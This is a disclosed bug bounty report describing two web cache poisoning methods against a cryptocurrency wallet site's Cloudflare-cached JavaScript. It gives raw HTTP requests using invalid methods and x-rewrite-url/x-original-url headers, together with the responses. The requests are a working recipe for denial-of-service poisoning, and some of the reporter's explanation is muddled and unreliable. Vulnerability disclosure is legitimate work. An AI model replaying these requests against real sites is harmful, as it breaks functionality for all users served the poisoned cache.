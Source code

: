 # 2 Cache Poisoning Attack Methods Affect Core Functionality www.exodus.com

## Report Details
- **Report ID**: 1581454
- **URL**: https://hackerone.com/reports/1581454
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-05-25T22:45:22.485Z
- **Disclosed**: 2022-06-06T11:31:15.445Z

## Reporter
- **Username**: setiawan_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: exodus

## Vulnerability Information
## Summary:
www.exodus.com hosts static js and css files on Server: cloudflare . Which is cached by cloudflare and passed to all other users accessing the source. I was able to impact the core functionality by using a custom HTTP. Here are 2 details of the Bug.

## Steps To Reproduce:

**1. 501 Not Implemented**

At https://www.exodus.com/, I was able to impact core functionality by using an invalid custom HTTP header to replace the JavaScript file from https://www.exodus.com/webpack-runtime-d5cfa86b8e358efc5db3-v2.js with message '501 Not Implemented'.

```
ERROR /webpack-runtime-d5cfa86b8e358efc5db3-v2.js?cachebust=exodus HTTP/1.1
Host: www.exodus.com
```
```
CRASH /webpack-runtime-d5cfa86b8e358efc5db3-v2.js?cachebust=exodus HTTP/1.1
Host: www.exodus.com
```

Response :
```
HTTP/1.1 501 Not Implemented
Date: Wed, 25 May 2022 22:07:00 GMT
Content-Length: 0
Connection: keep-alive
Expect-CT: max-age=604800, report-uri="https://report-uri.cloudflare.com/cdn-cgi/beacon/expect-ct"
Strict-Transport-Security: max-age=15552000; includeSubDomains; preload
Set-Cookie: __cfruid=5132a5357442dd861d107824c86a39a95057bcaf-1653516420; path=/; domain=.exodus.com; HttpOnly; Secure; SameSite=None
Server: cloudflare
CF-RAY: 711194da3f3fa131-SIN
```
( HTTP ) My custom CRASH & ERROR to fulfill a request does not work or is not found on the server this server establishes communication between the client and the server to be interrupted . Note that the CF-RAY value changes every time we send a request. CF-RAY is a hash value that encodes information about the data center and requests.

**2. Cache poisoning triggers Firewall Exodus**

When you poison a .js / .css file with additional 2 headers namely : x-rewrite-url & x-original-url it will trigger the exodus firewall rule.

GET request:
```
GET /webpack-runtime-d5cfa86b8e358efc5db3-v2.js?cachebust=exodus HTTP/1.1
Host: www.exodus.com
x-rewrite-url: /root
```
```
GET /webpack-runtime-d5cfa86b8e358efc5db3-v2.js?cachebust=exodus HTTP/1.1
Host: www.exodus.com
x-original-url: /root
```
Pay attention to the GET request. It looks different if you open the response in a browser, it will make a POST. Logically, if the POST, DELETE or PURGE methods are not allowed it will issue a response POST is not a valid request method ( 500 Internal Server Error ) However with 2 additional headers x-rewrite-url & x-original-url it actually makes a POST request to the internal system, interesting is not it? :
```
POST /webpack-runtime-d5cfa86b8e358efc5db3-v2.js?cachebust=exodus HTTP/1.1
Host: www.exodus.com
```
Response :
```
HTTP/1.1 403 Forbidden
Server: cloudflare
CF-RAY: 7111ab2b8cd191c6-SIN

<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1" />

    <title>Exodus - Firewall Triggered</title>
```

## Supporting Material/References:
- F1744429: Crash501NotImplemented.png
- F1744430: FirewallTriggeredWithCachePoison.png
- F1744431: PostRequestTriggeredFirewall.png

==Note: I've added in the User-Agent header to help with problem tracking. https://hackerone.com/bismillahfortuner?type=user
User-Agent: h1-<bismillahfortuner>==

## Impact

www.exodus.com hosts static js and css files on Server: cloudflare . Which is cached by cloudflare and passed to all other users accessing the source. I was able to impact the core functionality by using a custom HTTP. And I can trigger exodus firewall rules using cache poisoning

## Attachments
- Crash501NotImplemented.png
- FirewallTriggeredWithCachePoison.png
- PostRequestTriggeredFirewall.png
